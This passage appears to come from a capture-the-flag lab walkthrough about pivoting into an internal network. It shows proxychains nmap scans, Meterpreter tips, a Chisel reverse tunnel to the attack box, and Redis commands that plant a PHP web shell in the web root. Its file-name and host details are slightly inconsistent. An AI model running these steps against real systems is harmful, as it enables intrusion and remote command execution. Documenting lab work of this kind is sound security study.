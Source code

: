 Both methods will find that `6379` is open  
With `nmap` we can then run a more detailed scan with:  
`proxychains nmap -sT -sV -p 6379 172.19.0.2`  
and find that this is Redis key-value store 4.0.9  

Redis is an open-source, in-memory data store used as a database, cache, streaming engine, and message broker  

The msf port scanner ran a lot faster than nmap by the way; maybe the strategy is to first run that one, and then run nmap as a more detailed follow-up  

Using the same method, we also find port `80` is open on `172.19.0.3` with http Apache (Debian)  

In theory you could use a meterpreter port forward to connect to both Redis on `.2` and HTTP on `.3`, I was succesfully at this for a short time, but then it just failed and I couldn't get it to work again. Using **Chisel** gave me much more reliable results

**Tip**: Once you have a meterpreter session, you can do `upload <src> <dst>` from the Meterpreter command prompt to send files to the target  

**Tip:** You can background a shell in meterpreter (like one created with `shell`) with `ctrl + z` and then foreground it with `channel -l` and then `channel -i`  

<br />

## Pivot 1

### Adding redirects with Chisel

Start Chisel server on the attack box with:  
`./chisel server --reverse -v -p 8688`  

Start a Chisel client on the pivot box, instructing it to forward our requests to `127.0.0.1:6379` to `172.19.0.2:6379` and to forward our requests to `127.0.0.1:8082` to `172.19.0.3:80`  
```bash
./chisel client 10.10.14.3:8688 R:127.0.0.1:6379:172.19.0.2:6379 R:127.0.0.1:8082:172.19.0.3:80`
```
Now we can get to the HTTP server by going to `localhost:8082` in a browser and we can connect to the Redis server at `127.0.0.1:6379`  

### What to do in Redis

If you search 'redis remote command execution' on the internet, you can find a guide on how to connect to a redis server with telnet or nc  

I don't really care about this part (its very specific), just going to copy what I did:  

In redis:  
- `flushall`
- `set AVariable "<? system($_REQUEST['aaa']); ?>"`
- `config set dbfilename aaabbb.php`  
- `config set dir /var/www/html/`  
- `save`  

(We are writing a configuration file called "aaa.php" to /var/www/html)  

File there get put on the HTTP server on `172.19.0.2`. So we are basically writing a file there  
